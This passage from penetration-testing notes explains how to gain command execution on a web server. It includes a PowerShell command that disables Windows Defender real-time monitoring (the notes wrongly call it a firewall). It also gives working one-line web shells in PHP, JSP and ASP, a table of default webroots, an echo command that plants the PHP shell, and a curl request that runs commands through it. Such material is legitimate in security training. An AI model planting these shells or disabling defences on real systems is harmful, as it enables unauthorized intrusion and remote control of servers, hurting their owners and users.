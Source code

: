We may face a firewall blocking us, the following command disable it:
```console
PS C:\zeropio> Set-MpPreference -DisableRealtimeMonitoring $true
```

---

# Web shell
A web shell is a browser-based shell session we can use to interact with the underlying operating system of a web server. Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. The Laudanum files can be found in the `/usr/share/webshells/laudanum`{: .filepath} directory. 

## Writing

This are some of the scripts to execute a web shell:
```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```
<% eval request("cmd") %> # asp
```

## Uploading the shell

Firstly, we need to upload the webshell.
Secondly, we need to figurate which type of server is:

| **Server**   | **Default Webroot**    |
|--------------- | --------------- |
| Apache   | `/var/www/html/`{: .filepath}   |
| Nginx   | `/usr/local/nginx/html/`{: .filepath}   |
| IIS   | `c:\inetpub\wwwroot\`{: .filepath}   |
| XAMPP   | `C:\xampp\htdocs\`{: .filepath}   |

For example, for a Apache in Linux with a PHP:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accesing the shell

Access the file through the browser or using cURL. With the option `?cmd=<command>` we can execute it.
For example: `http://<ip>/shell.php?cmd=whoami` in the web, or with curl:
```console
zero@pio$ curl http://<ip>/shell.php?cmd=whoami
  www-data
```

---